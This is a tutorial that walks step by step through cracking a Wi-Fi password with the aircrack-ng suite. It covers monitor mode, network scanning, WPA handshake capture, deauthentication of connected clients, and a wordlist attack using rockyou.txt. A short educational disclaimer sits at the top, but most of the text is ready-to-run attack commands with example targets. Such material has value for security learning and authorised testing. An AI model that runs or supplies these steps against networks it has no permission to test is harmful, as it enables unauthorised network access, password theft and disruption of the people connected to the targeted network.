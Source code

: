 ```yaml
---
hidden: true
---
```


# How to Crack a Wifi

This tutorial demonstrates how to crack a Wi-Fi network using a wireless adapter in monitor mode and the `aircrack-ng` suite. Created by @bst04.

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**Disclaimer:** This guide is intended for educational purposes only. Unauthorized access to any network is illegal and unethical. Use this knowledge responsibly and ethically.
{% endhint %}

***

### 📌 Basic Information

#### 1. Network Protocols

Understanding the protocols used in Wi-Fi networks is essential:

* **WEP (Wired Equivalent Privacy):** An obsolete protocol with significant security flaws.
* **WPA (Wi-Fi Protected Access):** Improved security over WEP but still vulnerable to weak passwords.
* **WPA2:** More secure than WPA, using AES/PSK encryption. Still susceptible to brute-force attacks if weak passwords are used.
* **WPA3:** The latest standard with enhanced protection against brute-force attacks. However, not all networks have adopted it yet.

#### 2. Encryption and Authentication Methods

* **TKIP (Temporal Key Integrity Protocol):** Legacy encryption with dynamic keys per packet; vulnerable to brute-force attacks.
* **AES (Advanced Encryption Standard):** A secure symmetric encryption method widely used in modern Wi-Fi networks.
* **PSK (Pre-Shared Key):** Commonly used for home networks, where a shared key is used for authentication. Vulnerable to brute-force attacks if the password is weak.

***

### 📋 Requirements

Before proceeding, ensure you have the following:

1. **Aircrack-ng Suite:** Installed on your system.
2. **Wireless Adapter Compatible with Monitor Mode:** Ensure your adapter supports packet injection and monitor mode.

***

### 🚀 Step-by-Step Process

#### Step 1: Install Aircrack-ng

If you're not using Kali Linux, you'll need to install the `aircrack-ng` suite. Run the following command in your terminal:

```bash
sudo apt-get update
sudo apt-get install aircrack-ng
```

_Note:_ If you're using Kali Linux, `aircrack-ng` is pre-installed.

***

#### Step 2: Enable Monitor Mode

To capture packets from the target network, your wireless adapter must be in monitor mode. First, identify your wireless interface by running:

```bash
ip addr
```

Once you know the interface name (e.g., `wlan0`), enable monitor mode:

```bash
sudo airmon-ng start [interface]
```

_Example:_\
If your interface is `wlan0`, run:

```bash
sudo airmon-ng start wlan0
```

This will create a new interface, typically named `wlan0mon`.

***

#### Step 3: Scan for Wi-Fi Networks

Use `airodump-ng` to scan for nearby Wi-Fi networks:

```bash
sudo airodump-ng [interface + mon]
```

_Example:_\
If your monitor mode interface is `wlan0mon`, run:

```bash
sudo airodump-ng wlan0mon
```

This will display a list of available networks, including their BSSID (MAC address), channel, and encryption type. Note down the details of the target network.

***

#### Step 4: Capture the Handshake

Focus on the target network by capturing its handshake. Use the following command:

```bash
sudo airodump-ng -c [channel] --bssid [BSSID] -w [output file] [interface + mon]
```

_Example:_\
If the target network is on channel 6 with BSSID `00:11:22:33:44:55`, run:

```bash
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
```

Leave this process running until the handshake is captured. You can verify the capture by checking the output file (`capture-01.cap`).

To speed up the handshake capture, deauthenticate connected clients using `aireplay-ng`:

```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [STATION] [interface + mon]
```

_Example:_\
If the station (connected device) is `66:77:88:99:AA:BB`, run:

```bash
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon
```

***

#### Step 5: Crack the Password

Once you have the handshake file, use `aircrack-ng` to attempt cracking the password. Provide a wordlist for brute-forcing:

```bash
sudo aircrack-ng -w [wordlist file] [handshake file]
```

_Example:_\
If your wordlist is `rockyou.txt` and the handshake file is `capture-01.cap`, run:

```bash
sudo aircrack-ng -w rockyou.txt capture-01.cap
```

The tool will try each password in the wordlist until it finds a match or exhausts the list.

***

### 🛠 Tips and Best Practices

1. **Use a Strong Wordlist:** Tools like `hashcat` or online resources provide comprehensive wordlists.
2. **Optimize Your Wireless Adapter:** Ensure your adapter is compatible with packet injection and has good signal reception.
3. **Be Patient:** Cracking strong passwords may take time, depending on the complexity and length of the passphrase.

***

### Conclusion

By following these steps, you can learn how to crack a Wi-Fi network using `aircrack-ng`. Remember to use this knowledge responsibly and within legal boundaries. Happy learning!
